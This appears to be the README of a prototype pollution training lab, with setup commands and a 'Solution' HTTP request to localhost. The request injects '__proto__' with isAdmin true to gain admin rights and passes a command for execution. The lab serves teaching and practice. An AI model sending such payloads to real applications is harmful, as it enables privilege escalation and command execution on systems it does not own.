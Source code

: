 # Hands On Lab For Prototype Pollution

[![Build Status](https://api.travis-ci.org/joemccann/dillinger.svg?branch=de)](https://travis-ci.org/joemccann/dillinger)

This lab environment helps you to try prototype pollution in practice, the aim is to exploit prototype pollution to change priviledge of the user from user to admin and execute commands.

##### Docker Mode

You can run it as a docker instance by executing the following commands :: 
  ```
 $ docker build -t webapp .
 $ docker run -p 80:80 -d webapp
  
  ```


##### Node Application

You can run it using node by executing the following commands ::

  ```
 $ cd webapp
 $ node app.js
  ```
  
#### Solution

```
 
POST /addnote HTTP/1.1
Host: localhost
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
content-type: application/json
Content-Length: 139
 
{"auth": {"name": "test", "password": "test"}, "note": { "text": "bla",
"command":"ls",
 "__proto__": {"isAdmin": true}}}

```
   
